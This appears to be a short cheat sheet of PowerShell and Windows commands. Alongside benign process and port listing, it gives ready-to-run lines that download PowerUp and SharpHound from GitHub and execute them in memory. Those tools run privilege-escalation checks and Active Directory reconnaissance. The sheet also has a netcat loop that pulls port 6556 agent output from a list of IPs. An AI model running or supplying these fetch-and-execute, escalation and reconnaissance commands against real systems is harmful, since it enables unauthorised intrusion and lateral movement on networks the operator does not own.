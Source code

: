 Kill processess that sometimes System cmd.exe can't kill:

```
wmic process where "name='name.exe'" delete
```

Using `Get-NetTCPConnection` to query for listening port and each row has a collumn called "OwningProcess". We are then selecting each object and all of its properties(*), adding a new collumn name `ProcessName` which is basically the Name value when you query `Get-Process` with the Id of OwningProcess property.

```
Get-NetTCPConnection -State Listen | Select-Object -Property *,@{'Name' = 'ProcessName';'Expression'={(Get-Process -Id $_.OwningProcess).Name}}
```

Download powershell script and run it in memory:

```
$out=Invoke-WebRequest "https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1"
Invoke-Expression $out
Invoke-AllChecks 
```

Sharkhound from memory using PS1

```
$out=Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1"
Invoke-Expression $out
Invoke-BloodHound -CollectionMethod All
```

Simple commandLoop output to file ... Encoding ASCII is important otherwise it would be unicode encoded!
```
Get-Content iplist.txt | ForEach-Object {
    $ip=($_  |  Select-String -Pattern "\d{1,3}(\.\d{1,3}){3}" -AllMatches).Matches.Value
    nc $ip 6556 | Out-File "$ip.txt" -Encoding ASCII
}

```